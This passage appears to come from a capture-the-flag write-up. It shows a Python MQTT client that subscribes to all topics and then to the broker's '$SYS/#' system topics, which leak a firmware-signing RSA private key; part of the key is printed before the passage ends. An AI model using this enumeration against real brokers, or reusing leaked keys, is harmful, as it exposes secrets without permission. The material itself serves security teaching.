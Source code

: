 
    def on_message(mqttc, obj, msg):
        print(f"[{datetime.now()}] {msg.topic} {str(msg.qos)} {str(msg.payload.decode())}")
        mqttc.loop_stop()


    client = mqtt.Client()
    client.on_connect = on_connect
    client.on_message = on_message
    client.connect("127.0.0.1", 1883, 60, "")
    client.subscribe(f"#")
    try:
        client.loop_forever()
    except KeyboardInterrupt:
        print()



Running this, it connects, and returns (relatively useless) messages, I
suspect from `broadcast.py`, once a minute:



    root@kali# ./mqtt.py 
    Connecting
    rc: 0
    [2020-01-24 07:06:29.447359] broadcast 0 Checking product status.
    [2020-01-24 07:06:30.449166] broadcast 0 Protobs seems alright.
    [2020-01-24 07:06:31.450434] broadcast 0 Checking for firmware updates.
    [2020-01-24 07:06:32.451550] broadcast 0 Seems no updates yet.
    [2020-01-24 07:06:33.453660] broadcast 0 Checking for Signing issues.
    [2020-01-24 07:06:34.455004] broadcast 0 Status : No issues yet.
    [2020-01-24 07:07:29.508888] broadcast 0 Checking product status.
    [2020-01-24 07:07:30.510518] broadcast 0 Protobs seems alright.
    [2020-01-24 07:07:31.511797] broadcast 0 Checking for firmware updates.
    [2020-01-24 07:07:32.512938] broadcast 0 Seems no updates yet.
    [2020-01-24 07:07:33.513934] broadcast 0 Checking for Signing issues.
    [2020-01-24 07:07:34.516440] broadcast 0 Status : No issues yet.



Remembering a trick from Hackvent, I switched the subscription to the
System Topics:



    client.subscribe(f"$SYS/#")



Once I did that, a bunch of new messages come through. There are all
sorts of channels, but once a minute, there are messages to
`$SYS/internal/firmware/signing` printed:



    [2020-01-24 07:10:28.936335] $SYS/internal/firmware/signing 0 Retrieving the key from aws instance
    [2020-01-24 07:10:29.938045] $SYS/internal/firmware/signing 0 Key retrieved..
    [2020-01-24 07:10:30.939596] $SYS/internal/firmware/signing 0 -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA7Gc/OjpFFvefFrbuO64wF8sNMy+/7miymSZsEI+y4pQyEUBA        
    R0JyfLk8f0SoriYk0clR/JmY+4mK0s7+FtPcmsvYgReiqmgESc/brt3hDGBuVUr4           
    et8twwy77KkjypPy4yB0ecQhXgtJNEcEFUj9DrOq70b3HKlfu4WzGwMpOsAAdeFT       
    +kXUsGy+Cp9rp3gS3qZ2UGUMsqcxCcKhn92azjFoZFMCP8g4bBXUgGp4CmFOtdvz           
    SM29st5P4Wqn0bHxupZ0ht8g30TJd7FNYRcQ7/wGzjvJzVBywCxirkhPnv8sQmdE       
    +UAakPZsfw16u5dDbz9JElNbBTvwO9chpYIs0QIDAQABAoIBAA5uqzSB1C/3xBWd 
    62NnWfZJ5i9mzd/fMnAZIWXNcA1XIMte0c3H57dnk6LtbSLcn0jTcpbqRaWtmvUN     
    wANiwcgNg9U1vS+MFB7xeqbtUszvoizA2/ScZW3P/DURimbWq3BkTdgVOjhElh6D             
    62LlRtW78EaVXYa5bGfFXM7cXYsBibg1+HOLon3Lrq42j1qTJHH/oDbZzAHTo6IO         
    91TvZVnms2fGYTdATIestpIRkfKr7lPkIAPsU7AeI5iAi1442Xv1NvGG5WPhNTFC            
    gw4R0V+96fOtYrqDaLiBeJTMRYp/eqYHXg4wyF9ZEfRhFFOrbLUHtUIvkFI0Ya/Y        
    QACn17UCgYEA/eI6xY4GwKxV1CvghL+aYBmqpD84FPXLzyEoofxctQwcLyqc5k5f            
    llga+8yZZyeWB/rWmOLSmT/41Z0j6an0bLPe0l9okX4j8WOSmO6TisD4WiFjdAos        
    JqiQej4Jch4fTJGegctyaOwsIVvP+hKRvYIwO9CKsaAgOQySlxQBOwMCgYEA7l+3  